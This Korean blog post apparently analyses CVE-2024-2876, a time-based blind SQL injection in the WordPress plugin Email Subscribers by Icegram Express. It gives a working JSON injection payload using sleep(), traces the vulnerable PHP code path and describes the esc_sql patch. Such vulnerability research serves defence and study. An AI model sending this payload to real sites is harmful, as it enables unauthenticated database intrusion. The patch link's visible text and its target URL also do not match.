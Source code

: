 ```yaml
---
title: "[CVE-2024-2876] 취약점 분석 보고서"
description: "Email Subscribers by Icegram Express에서 발생하는 Time Based Blind SQL Injection 취약점"
author: bde574786
date: 2025-01-14 17:35:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Blind SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. 취약점 개요**

**Email Subscribers by Icegram Express**는 WordPress용 플러그인으로, 웹사이트 소유자가 이메일 마케팅과 관련된 다양한 작업을 쉽게 수행할 수 있도록 도와주는 도구이다. 이 플러그인은 사용자 친화적인 인터페이스를 제공하며, 구독자 관리, 뉴스레터 작성 및 발송, 자동화된 이메일 캠페인 생성 등을 지원한다.
CVE=2024-2876은 해당 플러그인에서 발견된 SQL Injectino 취약점으로 버전 5.7.14 이하에서 존재하며, 사용자 입력값에 대한 적절한 이스케이프 처리 부족과 SQL 쿼리의 불충분한 준비로 인해 발생한다.

## **2. 영향을 받는 버전**

- Email Subscribers by Icegram Express ≤ 5.7.14

## **3. 취약점 테스트**

UI 단에서 요청을 추적하기 어려워 curl 명령어로 raw 요청을 직접 전송하였다.

POST 요청으로 삽입하는 데이터는 아래와 같다.

```json
{
  "page": "es_subscribers",
  "is_ajax": 1,
  "action": "_sent",
  "advanced_filter": {
	"conditions": [
	  [
		{
		  "field": "status=99924)))union(select(sleep(30)))--+",
		  "operator": "==",
		  "value": "1111"
		}
	  ]
	]
  }
}
```

success가 false로 표시되었으나 이는 응답 구조가 정상적임을 의미한다. 또한, 페이로드는 내부적으로 처리되었으며 오류도 발생하지 않았다는 것을 알 수 있다. 

time 명령어로 요청 시간을 확인한 결과 sleep 함수로 시간을 늘릴수록 응답시간이 인위적으로 지연되었다.

![image.png](assets/posts/one-day/2025-01-14/image.png)

## **4. 취약점 상세 분석**

코드를 살펴보면 플러그인이 클래스 `maybe_apply_bulk_actions_on_all_contacts()`의 함수를 `Email_Subscribers_Admin` 관리자 init 후크에 추가한다는 것을 알 수 있다. 이 함수는 nonce 검증을 수행하지 않으므로 인증되지 않은 공격자가 호출할 수도 있다.

```php
// lite/admin/class-email-subscribers-admin.php

add_action( 'admin_init', array( $this, 'maybe_apply_bulk_actions_on_all_contacts' ) );
```

이후, 이 함수는 클래스를 사용하여 데이터베이스에서 구독자를 쿼리하게 된다.

```php
// lite/admin/class-email-subscribers-admin.php

public function maybe_apply_bulk_actions_on_all_contacts() {
	...
	$contacts_table = new ES_Contacts_Table();
	...
}
```

```php
// lite/includes/classes/class-es-contacts-table.php

public function get_subscribers( $per_page = 5, $page_number = 1, $do_count_only = false ) {
	...
	$advanced_filter = ig_es_get_request_data('advanced_filter');
	$advanced_filter = ( !empty($advanced_filter) ) ? $advanced_filter['conditions'] : '';
	...
	if ( !empty ( $advanced_filter ) ) {
		$query_obj  = new IG_ES_Subscribers_Query();
		$query_args = array(
					'select'    => array( 'subscribers.id' ),
					'conditions'=> $advanced_filter,
					'return_sql'=> true,
				);
	
				$condition = $query_obj->run($query_args);
	}
	...
}
```

`IG_ES_Subscribers_Query` 클래스의 `run` 함수 내부이다.  `get_subscribers` 함수에서의 advanced_filter의 값은 최종적으로 `IG_ES_Subscribers_Query::run` 함수의 `condition` 의 인자로 전달된다. 따라서, `advanced_filter` 의 `condition` 키를 조작하면 SQL Injection을 성공적으로 실행할 수 있게 된다.

```php
// lite/includes/classes/class-ig-es-subscriber-query.php

if ( ! empty( $this->args['conditions'] ) ) {
			foreach ( $this->args['conditions'] as $i => $and_conditions ) {

				$sub_cond = array();

				if ( ! empty( $and_conditions ) ) {
					foreach ( $and_conditions as $j => $condition ) {

						$field    = isset( $condition['field'] ) ? $condition['field'] : ( isset( $condition[0] ) ? $condition[0] : null );
						$operator = isset( $condition['operator'] ) ? $condition['operator'] : ( isset( $condition[1] ) ? $condition[1] : null );
						$value    = isset( $condition['value'] ) ? $condition['value'] : ( isset( $condition[2] ) ? $condition[2] : null );

```

페이로드가 성공적으로 주입되면 최종적으로는 아래와 같은 쿼리가 완성되며 기존 조건이 종료되고 sleep 구문이 실행된다.

```sql
SELECT subscribers.id FROM wp_ig_contacts AS subscribers LEFT JOIN wp_ig_lists_contacts AS lists_subscribers ON subscribers.id = lists_subscribers.contact_id WHERE 1=1 AND ( ( subscribers.status=99924)))union(select(sleep(5)))-- = '1111' ) )
```

## 5. 패치

[https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3114483%40slider-wd&old=3103665%40slider-wd&sfp_email=&sfph_mail=](https://plugins.trac.wordpress.org/changeset/3060251/email-subscribers/trunk/lite/includes/classes/class-ig-es-subscriber-query.php)

`$value` 가 SQL 쿼리에 삽입되기 전에, `esc_sql` 함수를 통해 이스케이프 처리를 하도록 변경되었다.

![image.png](assets/posts/one-day/2025-01-14/image%201.png)